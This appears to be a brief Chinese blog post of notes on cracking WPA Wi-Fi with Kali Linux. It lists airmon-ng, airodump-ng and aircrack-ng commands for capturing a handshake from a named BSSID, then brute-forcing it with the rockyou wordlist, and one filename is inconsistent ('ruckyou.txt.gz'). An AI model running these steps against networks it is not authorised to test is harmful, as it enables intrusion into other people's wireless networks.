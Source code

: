 ```yaml
---
layout: post
title:  kali_Linux下无线渗透
categories: [Linux]
tags: [Linux]
---
```


kali_Linux下无线渗透
<!--more-->

- 加载无线网卡进kali
  - 通过iwconfig查看是否加载

- 关闭可影响的进程
  - service network-manager stop
  - airmon-ng check kill

- 启动网卡监听模式

    - airmon-ng start wlan0


    - 确认已开启  iwconfig
- 抓包
	- airodump-ng wlan0mon
	- airodump-ng wlan0mon --bssid C8:3A:35:49:02:98 -c 4 -w wpa

- ls wpa* 查看抓取的包 .cap文件，记住最新的
	- 后面使用Kali Linux中默认存在的字典，目录为/usr/share/wordlists/rockyou.txt.zip，其中需要使用命令来解压：
gunzip ruckyou.txt.gz
这里顺便记录一下Kali中几个常用的字典文件的位置：
/usr/share/john/password.lst
/usr/share/wfuzz/wordlist
/usr/share/ wordlists

- 破解

   - aircrack-ng -w /usr/share/wordlists/rockyou.txt wpa-04.cap进行破解：
